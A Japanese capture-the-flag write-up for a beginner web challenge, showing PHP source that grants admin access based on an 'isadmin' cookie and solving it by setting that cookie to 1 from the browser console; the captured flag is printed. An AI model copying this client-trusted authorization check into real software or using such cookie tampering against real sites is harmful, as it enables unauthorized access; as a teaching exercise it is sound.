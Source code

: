 # Are you admin?? (100pt 18solves)

このページには管理者しか見れない情報があるらしい。  

(url)

## 配布ファイル

[distfiles](../distfiles)

## ヒント

配布ファイルのindex.phpのソースコードを読んでみましょう！  
何かが0じゃないときにflagが表示されるようです。  
※ `flag{***CENSORED***}`は配布ファイル用に用意したダミーです。実際のflagとは関係ありません

## writeup

アクセスすると以下のような表示。

![areyouadmin](./img/areyouadmin.png)

権限がないらしい。ソースコードを読んでみる。

```php
<?php
if ($_COOKIE["isadmin"] == 0) {
    echo "<p>あなたにはこのページを表示する権限がありません。</p>";
} else {
    echo "flag{***CENSORED***}";
}
```

Cookieの`isadmin`が0だと権限がない。  
ブラウザの開発者ツールからコンソールで以下を実行し、Cookieを書き換えてページを更新する。

```javascript
document.cookie="isadmin=1"
```

![flag](./img/flag.png)

`flag{c00k13_1s_34s1ly_r3wr1tt3n}`
